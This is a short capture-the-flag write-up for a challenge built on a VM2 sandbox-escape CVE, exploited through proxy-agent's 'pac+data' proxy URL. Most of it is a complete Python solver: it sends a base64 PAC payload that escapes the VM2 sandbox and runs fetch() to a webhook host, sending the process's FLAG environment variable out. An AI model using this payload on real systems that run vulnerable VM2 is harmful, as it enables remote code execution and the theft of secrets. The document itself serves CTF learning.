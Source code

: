 # Writeup

This challenge is inspired by this CVE: [https://gist.github.com/leesh3288/f693061e6523c97274ad5298eb2c74e9](https://gist.github.com/leesh3288/f693061e6523c97274ad5298eb2c74e9).

The idea is to exploit a module that requires VM2 as a dependency, especially for this challenge. I want to exploit `proxy-agent`, which requires VM2 as a dependency. We can inject a specially crafted proxy URL with the protocol "pac+data" and inject our sandbox escape script into the proxy configuration.

Here is my solver for this challenge:

```python
from itsdangerous import base64_encode
import httpx

TARGET = "http://localhost:8080"
WEBHOOK = "http://localhost:4444"

payload = "pac+data:plain/text;base64,"
payload += base64_encode("""
eval(`
FindProxyForURL=()=>{}
async function fn() {
    (function stack() {
        new Error().stack;
        stack();
    })();
}
p = fn();
p.constructor = {
    [Symbol.species]: class FakePromise {
        constructor(executor) {
            executor(
                (x) => x,
                (err) => { return err.constructor.constructor('fetch("{WEBHOOK}?"+process.env.FLAG)')(); }
            )
        }
    }
};
p.then();`)
""".replace("{WEBHOOK}", WEBHOOK)).decode()

res = httpx.get(TARGET, params={
    "url": "https://google.com",
    "proxyUrl": payload
})
print(res.text)
```
